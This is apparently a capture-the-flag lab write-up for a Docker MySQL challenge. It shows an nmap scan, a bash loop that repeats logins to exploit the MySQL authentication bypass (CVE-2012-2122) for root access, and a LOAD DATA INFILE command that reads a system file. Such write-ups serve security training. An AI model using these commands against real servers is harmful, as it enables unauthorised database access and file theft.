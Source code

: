 ```
docker pull mahadev11/mysql11
docker run -i -t -d -p 3306:3306 mahadev11/mysql11
```














CTF instance Mysql challenge.

download docker
  
Add flag.txt using command echo cyberclubflag:{E8MIRVEt5kNFvCce1nBYPxXVsvEEl8xO} >flag.txt
  
How to exploit?
  
Nmap scan report for 172.16.137.98
Host is up (0.00018s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
110/tcp  open  pop3
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
3306/tcp open  mysql
8000/tcp open  http-alt
8080/tcp open  http-proxy
MAC Address: 06:15:BE:3F:A0:FC (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
root@ip-172-16-131-199:/home/ubuntu#


Get access as a mysql root user.

In short, if you try to authenticate to a MySQL server affected by this flaw, there is a chance it will accept your password even if the wrong one was supplied. The following one-liner in bash will provide access to an affected MySQL server as the root user account, without actually knowing the password.
 
```for i in `seq 1 1000`; do mysql -u root --password=bad -h 172.16.137.98 2>/dev/null; done```
  
  or
  
```for i in `seq 1 1000`; do mysql -uroot -pwrong -h 172.16.137.98 -P3306 ; done```
 
Mysql can load system files using below command. We will load a flag.txt file using mysql commands in to mysql datababse temp.
  
  Mysql commands:
  use databasename:
  show databases;
  show tables;
  create table table_name(column_name varchar(255));

  ```LOAD DATA INFILE '/etc/flag.txt' INTO TABLE mysql.user;```
  
  //good read :https://securityweekly.com/2013/01/18/mysql-file-system-enumeration/
  //http://www.freebuf.com/vuls/3815.html
https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/
  

